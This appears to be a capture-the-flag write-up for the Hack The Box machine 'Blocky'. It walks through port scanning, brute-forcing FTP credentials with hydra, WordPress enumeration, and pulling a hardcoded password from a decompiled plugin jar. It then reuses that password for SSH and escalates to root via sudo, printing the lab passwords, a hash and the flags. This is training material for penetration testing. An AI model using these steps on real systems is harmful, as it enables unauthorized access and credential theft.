



+++
title = "Blocky"
date = "2024-02-11"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2017-07-21

**Created by**: [Arrexel](https://app.hackthebox.com/users/2904)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.10`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.37`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Blocky using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.37" -p-
```

```
<SNIP>
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
8192/tcp  closed sophos
25565/tcp open   minecraft
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.37" --top-ports "500"
```

```
<SNIP>
PORT   STATE  SERVICE
22/udp closed ssh
80/udp closed http
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.37" -p "21,22,80,8192,25565" -sV
```

```
<SNIP>
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http      Apache httpd 2.4.18
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Let's do the same for the UDP ports.

```sh
❯ nmap -sU "10.10.10.37" -p "22,80" -sV
```

```
<SNIP>
PORT   STATE  SERVICE VERSION
22/udp closed ssh
80/udp closed http
<SNIP>
```

Alright, so `nmap` managed to determine that Blocky is running Linux, and the
version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.37" -p "21,22,80,8192,25565" -sC
```

```
<SNIP>
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http
|_http-title: Did not follow redirect to http://blocky.htb
8192/tcp  closed sophos
25565/tcp open   minecraft
<SNIP>
```

Let's also run them on the UDP services.

```sh
❯ nmap -sU "10.10.10.37" -p "22,80" -sC
```

```
<SNIP>
PORT   STATE  SERVICE
22/udp closed ssh
80/udp closed http
<SNIP>
```

The `http-title` script indicates that the Apache server redirects to
`http://blocky.htb/`. I'll add it to my `/etc/hosts` file.

```sh
❯ echo "10.10.10.37 blocky.htb" >> "/etc/hosts"
```

## Services enumeration

### FTP

#### Exploring the filesystem

`nmap`'s scripts didn't run on this service, so we don't know whether anonymous
login is allowed or not. But if we try to connect anonymously, it fails.

Let's use `hydra` with
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)
to try common FTP credentials.

```sh
❯ hydra -C "/usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt" "10.10.10.37" "ftp"
```

```
<SNIP>
1 of 1 target completed, 0 valid password found
<SNIP>
```

It failed too.

#### Known vulnerabilities

We can't connect to the FTP server. But maybe it's vulnerable to known exploits?

```sh
❯ nmap -sS "10.10.10.37" -p "21" --script "vuln"
```

```
<SNIP>
PORT   STATE SERVICE
21/tcp open  ftp
<SNIP>
```

It isn't.

If we search [ExploitDB](https://www.exploit-db.com/) for `ProFTPd 1.3.5`, we
find
[ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)](https://www.exploit-db.com/exploits/37262)
([CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)). It looks like
a promising candidate, but unfortunately it doesn't work.

### Apache

#### Exploration

Let's browse to `http://blocky.htb/`.



This is a website for a Minecraft server named BlockyCraft. It indicates that
the website as well as the server are under construction.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



This reveals that this website is using PHP, MySQL and Wordpress version `4.8`.

#### WordPress

Let's use `wpscan` to enumerate:

```sh
❯ wpscan --url "http://blocky.htb/" -e
```

```
<SNIP>
[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blocky.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blocky.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blocky.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://blocky.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blocky.htb/index.php/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |  - http://blocky.htb/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://blocky.htb/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-01-16T00:00:00.000Z
 | Readme: http://blocky.htb/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.5
 | Style URL: http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:03 <============================================================================================================================================================> (638 / 638) 100.00% Time: 00:00:03
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Timthumbs (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:15 <==========================================================================================================================================================> (2575 / 2575) 100.00% Time: 00:00:15

[i] No Timthumbs Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <===================================================================================================================================================================> (75 / 75) 100.00% Time: 00:00:00

[i] No DB Exports Found.

[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
 Brute Forcing Attachment IDs - Time: 00:00:01 <========================================================================================================================================================> (100 / 100) 100.00% Time: 00:00:01

[i] No Medias Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
<SNIP>
```

#### Exploration

If we browse the website, we only find a post by `notch` indicating that the
website is under construction. That's all. No comments, or anything like that.

#### Site crawling

Let's see if we can find any linked web pages or directories.

```sh
❯ katana -u "http://blocky.htb/"
```

```
<SNIP>
http://blocky.htb/
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/jquery.scrollTo.js?ver=2.1.2
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/skip-link-focus-fix.js?ver=1.0
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/global.js?ver=1.0
http://blocky.htb/wp-includes/wlwmanifest.xml
http://blocky.htb/wp-includes/js/wp-embed.min.js?ver=4.8
http://blocky.htb/wp-includes/js/jquery/jquery-migrate.min.js?ver=1.4.1
http://blocky.htb/xmlrpc.php?rsd
http://blocky.htb/index.php/comments/feed/
http://blocky.htb/wp-login.php
http://blocky.htb/index.php/feed/
http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
http://blocky.htb/wp-includes/js/jquery/jquery.js?ver=1.12.4
http://blocky.htb/wp-login.php?action=lostpassword
http://blocky.htb/index.php/wp-json/
http://blocky.htb/wp-admin/load-styles.php?c=1&dir=ltr&load%5B%5D=dashicons,buttons,forms,l10n,login&ver=4.8
http://blocky.htb/index.php/2017/07/
http://blocky.htb/index.php/category/uncategorized/
http://blocky.htb/index.php/2017/07/02/welcome-to-blockycraft/
http://blocky.htb/
http://blocky.htb/a
http://blocky.htb/wp-includes/js/comment-reply.min.js?ver=4.8
http://blocky.htb/xmlrpc.php
http://blocky.htb/index.php/2017/07/02/welcome-to-blockycraft/feed/
http://blocky.htb/index.php/wp-json/oembed/1.0/embed?url=http%3A%2F%2Fblocky.htb%2Findex.php%2F2017%2F07%2F02%2Fwelcome-to-blockycraft%2F&format=xml
http://blocky.htb/index.php/wp-json/oembed/1.0/embed?url=http%3A%2F%2Fblocky.htb%2Findex.php%2F2017%2F07%2F02%2Fwelcome-to-blockycraft%2F
http://blocky.htb/index.php/author/notch/
http://blocky.htb/?p=5
```

We find a few web pages, however none of them look particularly noteworthy.

#### Directory fuzzing

Let's see if this website hides unliked web pages and directories.

```sh
❯ ffuf -v -c -u "http://blocky.htb/FUZZ" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -mc "100-403,405-599" -e "/,.php"
```

```
<SNIP>
[Status: 403, Size: 291, Words: 22, Lines: 12, Duration: 24ms]
| URL | http://blocky.htb/icons/
    * FUZZ: icons/

[Status: 200, Size: 380, Words: 46, Lines: 11, Duration: 26ms]
| URL | http://blocky.htb/wiki/
    * FUZZ: wiki/

[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 26ms]
| URL | http://blocky.htb/wiki
| --> | http://blocky.htb/wiki/
    * FUZZ: wiki

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 31ms]
| URL | http://blocky.htb/wp-content
| --> | http://blocky.htb/wp-content/
    * FUZZ: wp-content

[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 39ms]
| URL | http://blocky.htb/wp-content/
    * FUZZ: wp-content/

[Status: 200, Size: 2397, Words: 147, Lines: 70, Duration: 181ms]
| URL | http://blocky.htb/wp-login.php
    * FUZZ: wp-login.php

[Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 4278ms]
| URL | http://blocky.htb/index.php
| --> | http://blocky.htb/
    * FUZZ: index.php

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 27ms]
| URL | http://blocky.htb/plugins
| --> | http://blocky.htb/plugins/
    * FUZZ: plugins

[Status: 200, Size: 745, Words: 36, Lines: 38, Duration: 23ms]
| URL | http://blocky.htb/plugins/
    * FUZZ: plugins/

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 67ms]
| URL | http://blocky.htb/wp-includes
| --> | http://blocky.htb/wp-includes/
    * FUZZ: wp-includes

[Status: 200, Size: 40838, Words: 2372, Lines: 201, Duration: 167ms]
| URL | http://blocky.htb/wp-includes/
    * FUZZ: wp-includes/

[Status: 403, Size: 296, Words: 22, Lines: 12, Duration: 25ms]
| URL | http://blocky.htb/javascript/
    * FUZZ: javascript/

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 25ms]
| URL | http://blocky.htb/javascript
| --> | http://blocky.htb/javascript/
    * FUZZ: javascript

[Status: 200, Size: 135, Words: 11, Lines: 5, Duration: 78ms]
| URL | http://blocky.htb/wp-trackback.php
    * FUZZ: wp-trackback.php

[Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 25ms]
| URL | http://blocky.htb/wp-admin
| --> | http://blocky.htb/wp-admin/
    * FUZZ: wp-admin

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 259ms]
| URL | http://blocky.htb/wp-admin/
| --> | http://blocky.htb/wp-login.php?redirect_to=http%3A%2F%2Fblocky.htb%2Fwp-admin%2F&reauth=1
    * FUZZ: wp-admin/

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 28ms]
| URL | http://blocky.htb/phpmyadmin
| --> | http://blocky.htb/phpmyadmin/
    * FUZZ: phpmyadmin

[Status: 200, Size: 10327, Words: 492, Lines: 26, Duration: 476ms]
| URL | http://blocky.htb/phpmyadmin/
    * FUZZ: phpmyadmin/

[Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 79ms]
| URL | http://blocky.htb/xmlrpc.php
    * FUZZ: xmlrpc.php

[Status: 403, Size: 289, Words: 22, Lines: 12, Duration: 30ms]
| URL | http://blocky.htb/.php
    * FUZZ: .php

[Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 119ms]
| URL | http://blocky.htb//
| --> | http://blocky.htb/
    * FUZZ: /

[Status: 200, Size: 52227, Words: 3306, Lines: 314, Duration: 174ms]
| URL | http://blocky.htb/
    * FUZZ: 

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 66ms]
| URL | http://blocky.htb/wp-signup.php
| --> | http://blocky.htb/wp-login.php?action=register
    * FUZZ: wp-signup.php

[Status: 403, Size: 298, Words: 22, Lines: 12, Duration: 31ms]
| URL | http://blocky.htb/server-status
    * FUZZ: server-status

[Status: 403, Size: 299, Words: 22, Lines: 12, Duration: 32ms]
| URL | http://blocky.htb/server-status/
    * FUZZ: server-status/
<SNIP>
```

We get a few hits that might be worth investigating.

#### Exploration

Back to the website, if we browse to `/plugins/`, we get something interesting:



We find two Minecraft plugins named `BlockyCore.jar` and
`griefprevention-1.11.2-3.1.1.298.jar`. Let's download them.

#### Inspecting `BlockyCore.jar`

I assume that `griefprevention-1.11.2-3.1.1.298.jar` is a third-party plugin
used by the developers of the server. However, `BlockyCore.jar` is likely
custom, so it might contain valuable information.

Let's unzip it and get the structure of the `.jar` file:

```sh
❯ tree -a "/workspace/BlockyCore"
```

```
/workspace/BlockyCore
├── META-INF
│   └── MANIFEST.MF
└── com
    └── myfirstplugin
        └── BlockyCore.class
<SNIP>
```

The `BlockyCore.class` file is probably the one holding the code — or rather,
the bytecode.

Let's use IntelliJ IDEA to decompile this file:

```java
package com.myfirstplugin;

public class BlockyCore {
    public String sqlHost = "localhost";
    public String sqlUser = "root";
    public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";

    public BlockyCore() {
    }

    public void onServerStart() {
    }

    public void onServerStop() {
    }

    public void onPlayerJoin() {
        this.sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
    }

    public void sendMessage(String username, String message) {
    }
}
```

We find credentials! The `sqlHost`, `sqlUser` and `sqlPass` attributes indicate
that this plugin connects to a SQL database locally using the credentials
`root`:`8YsqfCTnvxAUeduzjNSXe22` (not yet implemented).

## Foothold (SSH)

If we try to connect to Blocky over SSH using these credentials, it fails.

However, we found in the [WordPress](#wordpress) section that `notch` was a user
on the website (in fact, the only one). Since he wrote the post indicating that
the website and server were under construction, we must be the administrator,
and likely also the developer. Maybe he reused his credentials to connect to the
SQL database?

```sh
❯ ssh "notch@10.10.10.37"
```

```
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
<SNIP>
notch@10.10.10.37's password:
<SNIP>
notch@Blocky:~$
```

Nice!

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `notch`.

### Architecture

What is Blocky's architecture?

```sh
notch@Blocky:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Blocky is using.

```sh
notch@Blocky:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
```

Okay, so it's Ubuntu 16.04.

### Kernel

Let's find the kernel version of Blocky.

```sh
notch@Blocky:~$ uname -r
```

```
4.4.0-62-generic
```

It's `4.4.0`.

### Users

Let's enumerate all users.

```sh
notch@Blocky:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
notch
root
```

There's `notch` (us) and `root`.

### Groups

Let's enumerate all groups.

```sh
notch@Blocky:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
games
gnats
input
irc
kmem
list
lp
lpadmin
lxd
mail
man
messagebus
mlocate
mysql
netdev
news
nogroup
notch
operator
plugdev
proxy
root
sambashare
sasl
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
systemd-bus-proxy
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
notch@Blocky:~$ ifconfig
```

```
ens160    Link encap:Ethernet  HWaddr 00:50:56:b9:bb:21  
          inet addr:10.10.10.37  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feb9:bb21/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb9:bb21/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:240920 errors:0 dropped:0 overruns:0 frame:0
          TX packets:238806 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:42200993 (42.2 MB)  TX bytes:116449470 (116.4 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:16519 errors:0 dropped:0 overruns:0 frame:0
          TX packets:16519 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:1244580 (1.2 MB)  TX bytes:1244580 (1.2 MB)
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Blocky's hostname?

```sh
notch@Blocky:~$ hostname
```

```
Blocky
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
notch@Blocky:~$ cat "/home/notch/user.txt"
```

```
11ecd8af3ce4ee22a9392e37dd7b0198
```

### Website code review

Let's review the content of the Apache website, located at `/var/www/html`.

```php
<SNIP>
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'kWuvW2SYsABmzywYRdoD');

/** MySQL hostname */
define('DB_HOST', 'localhost');
<SNIP>
```

The `wp-config.php` file contains credentials used to connect to the MariaDB
database.

## Services enumeration

### MySQL

Let's connect to the MySQL server running locally using the Wordpress
credentials:

```sh
notch@Blocky:~$ mysql -u "wordpress" -p"kWuvW2SYsABmzywYRdoD"
```

```
mysql>
```

#### Version

Let's find out the version of MySQL in use.

```sh
mysql> SELECT @@version;
```

```
+-------------------------+
| @@version               |
+-------------------------+
| 5.7.18-0ubuntu0.16.04.1 |
+-------------------------+
<SNIP>
```

So it's MySQL version `5.7.18`.

#### Databases

Now, let's see which databases are available.

```sh
mysql> SHOW databases;
```

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| phpmyadmin         |
| sys                |
| wordpress          |
+--------------------+
<SNIP>
```

The `wordpress` database is the probably the most interesting (it's also the one
used by the website).

#### `wordpress`'s tables

Let's see which tables are included in this database.

```sh
mysql> SHOW tables;
```

```
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
<SNIP>
```

There's a few tables, but `wp_users` looks particularly noteworthy.

#### `wp_users`'s columns

Let's continue our enumeration of this database by checking the content of the
`wp_users` table.

```sh
mysql> SELECT column_type, column_name FROM information_schema.columns WHERE table_name = 'wp_users';
```

```
+---------------------+---------------------+
| column_type         | column_name         |
+---------------------+---------------------+
| bigint(20) unsigned | ID                  |
| varchar(60)         | user_login          |
| varchar(255)        | user_pass           |
| varchar(50)         | user_nicename       |
| varchar(100)        | user_email          |
| varchar(100)        | user_url            |
| datetime            | user_registered     |
| varchar(255)        | user_activation_key |
| int(11)             | user_status         |
| varchar(250)        | display_name        |
+---------------------+---------------------+
<SNIP>
```

Okay, so this table contains 10 columns.

#### `wp_users`'s columns content

Let's retrieve the content of the `user_login` and `user_pass` columns.

```sh
mysql> SELECT user_login, user_pass FROM wp_users;
```

```
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| Notch      | $P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/ |
+------------+------------------------------------+
<SNIP>
```

Unfortunately, there's only `notch`.

## System enumeration

### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
notch@Blocky:~$ sudo -l
```

```
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

We can run anything as `root`!

## Privilege escalation (Sudo permissions)

### Exploitation

Let's get an elevated shell:

```sh
notch@Blocky:~$ sudo "su" "-"
```

```
root@Blocky:~#
```

Yay!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Blocky as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@Blocky:~# cat "/root/root.txt"
```

```
70966d68d0867f2024b5ff85915c095a
```

# Afterwords


That's it for this box! 🎉

I rated the user flag as 'Easy' and the root flag as 'Very easy'. The foothold
was not so easy to find, but straightforward to exploit. I found it really
interesting too, and quite realistic. The privilege escalation was extremely
easy, and trivial to exploit.

Thanks for reading!
